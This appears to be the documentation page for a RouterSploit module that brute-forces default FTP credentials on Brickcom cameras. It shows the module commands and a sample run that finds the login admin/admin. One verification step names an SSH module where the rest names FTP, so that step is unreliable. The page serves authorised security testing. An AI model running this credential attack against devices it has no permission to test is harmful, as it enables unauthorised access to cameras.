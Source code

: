 ## Description

Module performs dictionary attack with default credentials against Brickcom Camera FTP service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/cameras/brickcom/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/cameras/brickcom/ftp_default_creds
rsf (Brickcom Camera Default FTP Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Brickcom Camera Default FTP Creds) > run
[*] Running module...
[*] Target exposes FTP service
[*] Starting attack against FTP service
[*] thread-0 thread is starting...
[-] Authentication Failed - Username: 'admin' Password: '12345'
[-] Authentication Failed - Username: 'admin' Password: '123456'
[-] Authentication Failed - Username: 'Admin' Password: '12345'
[-] Authentication Failed - Username: 'Admin' Password: '123456'
[+] Authenticated Succeed - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 0.06290411949157715 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     21       ftp         admin        admin 

```
